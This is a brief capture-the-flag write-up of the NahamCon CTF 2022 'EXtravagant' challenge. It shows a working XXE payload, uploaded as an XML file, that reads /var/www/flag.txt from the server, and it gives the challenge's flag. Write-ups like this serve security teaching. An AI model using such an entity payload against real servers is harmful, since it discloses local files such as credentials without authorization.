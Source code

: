 
# EXtravagant

![EXtravagant.PNG](https://github.com/vichhika/CTF-Writeup/blob/main/NahamCon%20CTF%202022/EXtravagant/EXtravagant.png?raw=true)

# Exploitation

![Upload.png](https://github.com/vichhika/CTF-Writeup/blob/main/NahamCon%20CTF%202022/EXtravagant/Upload.png?raw=true)

We see this website allow to view XML. So we try to do XML injection via file upload. First we create file `flag.xml` and put this source code below and save.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///var/www/flag.txt"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```
Try to upload and view that xml file. we will get flag

# Flag

```
flag{E769ABB30EF8663D111066A720356B29}
```																																																																																					

